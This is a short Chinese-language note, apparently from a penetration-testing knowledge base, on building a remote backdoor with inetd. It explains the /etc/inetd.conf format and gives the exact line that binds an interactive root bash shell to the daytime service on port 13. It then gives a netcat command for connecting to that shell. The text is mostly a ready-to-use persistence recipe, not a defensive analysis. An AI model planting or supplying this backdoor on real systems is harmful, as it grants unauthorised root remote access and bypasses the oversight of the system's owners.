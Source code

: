 ```yaml
---
title: "inetd 远程后门"
id: zhfly3505
---
```


## inetd 远程后门

inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。位置是/etc/inetd.conf 配置格式：[servicename] [socktype] [proto] [flags] [user] [server_path] [args] 在配置文件下写入以下内容。daytime stream tcp nowait root /bin/bash bash -i

daytime服务（13端口） 套接字类型 协议类型 不等待 用户组 提供服务的程序 daytime stream tcp nowait root /bin/bash bash -i

![image](../img/6f0009f888e5f0e1616f47ad74f26b97.png)

这样配置好了以后利用nc attip 13

![image](../img/a3e72c6e22958f81bba3b676fda99d42.png)
